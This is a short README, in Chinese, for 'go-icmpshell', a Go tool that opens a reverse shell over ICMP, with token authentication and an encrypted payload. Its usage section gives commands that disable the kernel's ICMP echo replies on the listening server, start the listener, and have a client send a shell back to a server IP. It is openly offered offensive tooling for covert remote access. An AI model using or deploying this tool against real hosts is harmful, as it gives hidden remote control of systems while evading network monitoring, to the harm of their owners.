 # go-icmpshell
一款基于 `gopacket` 编写的 icmp 反弹 shell 工具

## Features
- 支持自定义 ICMP 通信 id
- 基于 `token` 进行协商认证
- 针对传输载荷进行有效加密

## Usage
Server 端禁用 ICMP 自动 Reply
```shell
echo "1" >  /proc/sys/net/ipv4/icmp_echo_ignore_all
```

Server 端启动监听
```shell
./server --token [secret]
```

Client 端通过 ICMP 反弹 Shell
```shell
./shell --token [secret] --ip [server_ip_address]
```